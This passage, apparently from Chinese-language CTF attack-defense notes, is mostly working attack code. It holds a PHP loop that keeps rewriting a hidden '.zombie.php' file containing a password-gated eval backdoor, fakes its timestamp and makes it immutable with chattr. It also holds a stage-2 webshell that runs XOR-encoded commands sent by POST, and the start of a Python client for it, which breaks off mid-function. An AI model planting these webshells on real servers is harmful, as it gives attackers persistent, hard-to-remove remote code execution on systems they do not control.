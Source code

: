 	  $file = '.zombie.php';
	  $code = '<?php if(md5($_GET["pass"])==="d939d9e4a66080b7546850656aa7c5ee"){@eval($_POST[a]);} ?>';
	  
	  function deleteFolder($folder) {
	      $files = glob($folder . '/*');
	      foreach ($files as $file) {
	          if (is_file($file)) {
	              unlink($file);
	          } elseif (is_dir($file)) {
	              deleteFolder($file);
	          }
	      }
	      rmdir($folder);
	  }
	  
	  while (1) {
	      if (is_dir($file)) {
	          deleteFolder($file);
	      }
	      file_put_contents($file, $code);
	      system('touch -m -d "2023-10-01 09:10:12" ' . $file);
	      system('chattr +i ' . $file);
	      usleep(5000);
	  }
	  ?>
	  ```
	- stage2马
		- php部分
			- ```php
			  <?php
			  session_start();
			  
			  if($_GET["action"] == "get") {
			      $_SESSION["k"] = random_int(10, 128);
			      echo "KEY: " . $_SESSION["k"] . ";";
			  }else if(!$_SESSION["k"]) {
			      echo "flag{3b6429dc-de5c-4c4e-ace5-7f52d2b79385}";
			  }else{
			      $data = base64_decode($_POST["data"]);
			      $arr = [];
			      $k = $_SESSION["k"];
			      for($i = 0; $i < strlen($data); $i ++) {
			          $arr[$i] = chr(ord($data[$i]) ^ $k);
			          $k = ($k + 1) % 256;
			      }
			      eval(implode("", $arr));
			  }
			  ```
		- python
			- ```python
			  def exp_stage2(url, payload):
			      r = base_get(url, params={"action": "get"})
			      if not r:
			          return 500, ""
			      key = re.search(r"KEY: (\d+);", r.text)
			      if not key:
			          print(r.text)
			          return 500, "No key"
			      key = int(key.group(1))
			  
